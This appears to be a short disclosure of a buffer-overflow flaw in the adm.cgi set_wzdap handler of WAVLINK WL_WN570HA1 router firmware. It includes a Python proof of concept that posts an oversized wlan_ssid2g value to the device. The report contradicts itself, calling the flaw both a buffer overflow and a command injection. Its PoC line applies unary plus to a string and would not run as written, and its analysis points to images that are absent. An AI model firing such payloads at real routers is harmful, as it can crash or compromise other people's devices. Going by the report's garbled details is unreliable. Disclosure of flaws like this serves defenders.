


# buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in adm.cgi/set_wzdap

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:




get value from wlan_ssid2g



and we can set TouchLinkEn in wireless.cgi

if TouchLinkEn was set, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdap', 'wlan_ssid2g': + payload})
``` 
